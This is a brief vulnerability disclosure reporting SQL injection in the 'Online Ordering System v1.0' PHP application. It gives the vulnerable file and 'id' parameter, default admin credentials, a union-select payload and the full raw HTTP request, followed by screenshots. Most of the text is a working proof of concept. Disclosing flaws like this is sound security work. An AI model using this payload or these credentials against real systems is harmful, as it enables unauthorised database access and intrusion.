 # Online Ordering System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/5125/online-ordering-system-using-phpmysql.html

Vulnerability File: /onlineordering/admin/editproductetails.php

Vulnerability location: /onlineordering/admin/editproductetails.php?id=, id

[+] Payload: ip/onlineordering/admin/editproductetails.php?id=12%27%20union%20select%201,2,database(),4,5--+

```sql
GET /onlineordering/admin/editproductetails.php?id=12%27%20union%20select%201,2,database(),4,5--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167338319-b1ad74f0-5d31-4d29-a4ba-48f222c573cd.png)

![image](https://user-images.githubusercontent.com/54017627/167338286-d2cdeb85-f444-4314-ad82-da803011c796.png)
